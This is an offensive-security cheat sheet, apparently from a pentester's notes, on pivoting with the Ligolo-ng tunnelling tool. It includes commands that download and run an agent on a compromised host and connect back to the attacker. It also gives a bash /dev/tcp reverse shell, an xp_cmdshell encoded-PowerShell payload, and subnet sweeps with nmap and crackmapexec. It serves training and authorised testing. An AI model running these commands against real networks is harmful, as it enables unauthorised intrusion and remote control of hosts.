

# Ligolo-ng


My preferred tool for pivoting and tunneling. Once the tunnel is up, tools like `nmap`, `curl`, and `crackmapexec` work natively — no proxychains required for every command. Significantly faster and more stable than SOCKS-based approaches.

---

## Download

Latest release: https://github.com/nicocha30/ligolo-ng/releases/



Keep a copy of:
- `proxy` — runs on your Kali (attacker)
- `agent` — runs on the compromised host (Windows or Linux)

Commonly used files:
- `ligolo-ng_agent_0.7.5_linux_amd64.tar.gz`
- `ligolo-ng_agent_0.7.5_windows_amd64.zip`
- `ligolo-ng_proxy_0.7.5_linux_amd64.tar.gz`

---

## Basic Setup

### Step 1 — Create TUN Interface on Kali (one time)

```bash
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```

### Step 2 — Start the Proxy on Kali

```bash
./proxy -selfcert
# Listens on 0.0.0.0:11601
# Note the TLS fingerprint — used to verify the agent connection
```

### Step 3 — Transfer and Run Agent on Compromised Host

**Windows:**

```powershell
# Disable progress bar first — dramatically speeds up the download
$ProgressPreference = "SilentlyContinue"
iwr -uri http://<kali_ip>/agent.exe -UseBasicParsing -Outfile agent.exe

# Connect back to Kali
.\agent.exe -connect <kali_ip>:11601 -ignore-cert
```

**Linux:**

```bash
wget http://<kali_ip>/agent -O agent
chmod +x agent
./agent -connect <kali_ip>:11601 -ignore-cert
```

### Step 4 — Add Route to Internal Network on Kali

```bash
# Add route for the internal subnet reachable via the compromised host
sudo ip route add <internal_subnet>/24 dev ligolo

# Example
sudo ip route add 172.16.205.0/24 dev ligolo

# Verify the route was added
ip route list
```

### Step 5 — Start the Tunnel in Ligolo Console

```
# In the ligolo proxy console, select the agent session and start
[Agent : NT AUTHORITY\SYSTEM@WEB02] » start
INFO Starting tunnel to NT AUTHORITY\SYSTEM@WEB02
```

### Step 6 — Validate the Tunnel

```bash
# Sweep the internal network directly — no proxychains needed
crackmapexec smb 172.16.162.0/24
nmap -p 445,5985,80,443 172.16.162.0/24
```

---

## Local Port Forwarding

Access internal web services (Jenkins, IIS, internal apps) directly in your Kali browser.

### Step 1 — Add the Special Route on Kali

```bash
sudo ip route add 240.0.0.1/32 dev ligolo
```

### Step 2 — Map the Internal Service in Ligolo Console

```
listener_add --addr 0.0.0.0:<local_port> --to 127.0.0.1:<internal_port>
```

Now open `http://240.0.0.1:<internal_port>` in your Kali browser to access the internal service directly.

---

## Double Pivot — Catching Reverse Shells from Deeper Hosts

When you need a reverse shell from a host deeper in the network (Machine B) that can't reach Kali directly, use SSH dynamic port forwarding alongside Ligolo.

### Step 1 — SSH Tunnel Through the First Pivot

```bash
# -D 9090: dynamic SOCKS proxy on localhost:9090
# -R :7777: forward port 7777 on Machine A back to Kali (file transfers)
# -R :8888: forward port 8888 on Machine A back to Kali (reverse shell)
ssh <user>@<machine_a_ip> -D 9090 -R :7777:localhost:7777 -R :8888:localhost:8888
```

### Step 2 — Configure proxychains

```bash
# /etc/proxychains4.conf — add at the bottom:
socks5 127.0.0.1 9090
```

### Step 3 — Start Listener via proxychains

```bash
# Port 8888 catches the reverse shell from Machine B
proxychains nc -nvlp 8888
```

### Step 4 — Trigger Reverse Shell on Machine B

Point the shell back to Machine A's IP on port 8888 — SSH forwards it to Kali:

```bash
# Bash reverse shell pointing to Machine A
bash -c 'bash -i >& /dev/tcp/<machine_a_ip>/8888 0>&1'

# Via xp_cmdshell if MSSQL
exec xp_cmdshell 'powershell -e <base64_payload_pointing_to_machine_a:8888>'
```

### Step 5 — File Transfers via Port 7777

```bash
# Kali — serve files on port 7777
python3 -m http.server 7777

# Machine B — download via Machine A
iwr -uri http://<machine_a_ip>:7777/tool.exe -Outfile tool.exe
```

---

## Chaining — Second Pivot

```bash
# On the second pivot host — download and run the agent
$ProgressPreference = "SilentlyContinue"
iwr -uri http://<kali_ip>/agent.exe -UseBasicParsing -Outfile agent.exe
.\agent.exe -connect <kali_ip>:11601 -ignore-cert

# Back on Kali — add the new deeper subnet
sudo ip route add <deeper_subnet>/24 dev ligolo

# In ligolo console — select the new agent session and start
```

---

## Quick Reference

| Task | Command |
|---|---|
| Disable PS progress bar | `$ProgressPreference = "SilentlyContinue"` |
| Create TUN interface | `sudo ip tuntap add user kali mode tun ligolo` |
| Enable interface | `sudo ip link set ligolo up` |
| Start proxy | `./proxy -selfcert` |
| Add network route | `sudo ip route add <subnet> dev ligolo` |
| Add local port forward route | `sudo ip route add 240.0.0.1/32 dev ligolo` |
| Start tunnel | `start` (inside ligolo session) |
| Verify routes | `ip route list` |
| Delete interface (cleanup) | `sudo ip link delete ligolo` |

---

## Cleanup

```bash
sudo ip link delete ligolo
```